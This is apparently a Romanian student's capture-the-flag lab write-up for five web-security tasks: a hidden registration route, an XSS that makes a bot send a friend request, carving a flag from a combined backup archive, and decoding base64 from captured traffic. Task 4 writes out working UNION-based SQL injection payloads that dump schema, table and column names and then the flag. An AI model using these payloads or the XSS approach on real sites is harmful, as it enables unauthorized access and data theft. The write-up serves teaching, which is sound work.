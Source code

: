 # MARIN MARIUS DANIEL 332CC

### Task1
- ne conectam la dev-machine folosind `./connect.sh` iar apoi vedem ce adresa ip avem
- scanam porturile disponibile si vedem un `port deschis de http` la o adresa ip
- luam adresa ip si portul de http si le dam in scriptul de `./webtunnel.sh` pentru a ne
conecta pe web la `localhost:8080`
- pe site observam ca pagina de register e fake, si cautam cu inspect element in codul
sursa al site ului si vedem ca link ul bun este `/auth/register_real_one`
- ne facem cont, ne conectam si cautam iar cu inspect element in codul sursa al site
ului si gasim flagul

### Task2
- din hint uri si analiza sursei paginii web observam faptul ca putem comunica cu pisica
boss prin nyan cat (avem XSS simulators doar pentru ei)
- daca ne uitam in main.js observam niste functii pe care am putea sa le apelam ca sa
rezolvam acest task
- logica este aceea de a-i trimite lui nyan cat un mesaj care sa contina un script pe care
sa il trimita pentru a fi executat de catre boss (acesta sa apeleze addFriendRequest cu id ul
nostru)

### Task3
- avem la boss in pagina un hint cu scriptul `backup.sh` care trebuie luat de pe pagina
- observam ca scriptul combina 2 arhive intr una singura si ii pune numele cu o data
generata random intr un interval
- odata luata arhiva, se inspecteaza cu un tool pentru a vedea offset ul headerelor cum
ar fi `binwalk`
- se extrage cu tail offsetul arhivei flag, care se dezarhiveaza si astfel avem acces
la fisierul `flag.txt`

### Task4
- se testeaza manual url-urile site ului si se fac incercari de SQL injection pana se 
observa ca vulnerabilitatea este la adresa `http://localhost:8080/inside/p/`
- se incearca aflarea nr de coloane printr un payload care primeste ca arg nr coloanei
pentru a vedea la ce index apare eroarea (ex: ' order by X -- ;)
- se trimit mai multe atacuri pentru a afla informatia pas cu pas:
1. se observa ca se afiseaza informatia la userul 3 si apar duplicate => distinct
' union select distinct 1, 2, group_concat(distinct(table_schema)), 4, 5, 6, 7, 8
from information_schema.tables -- ;
  observam web_270
2. ' union select distinct 1, 2, group_concat(table_name), 4, 5, 6, 7, 8 from 
information_schema.tables where table_schema='web_270' -- ;
  observam flags64173
3.' union select 1, 2, group_concat(column_name), 4, 5, 6, 7, 8
from information_schema.columns where table_schema='web_270' and table_name='flags64173' -- ;
  observam zaflag
4.' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from flags64173 -- ;
  observam flag ul

### Task5
- se scaneaza traficul cu tcpdump si se observa ca anumite pachete contin `NYAN.NYAN..`
- se ia partea dintre NYAN si se decodifica cu `base64`
````
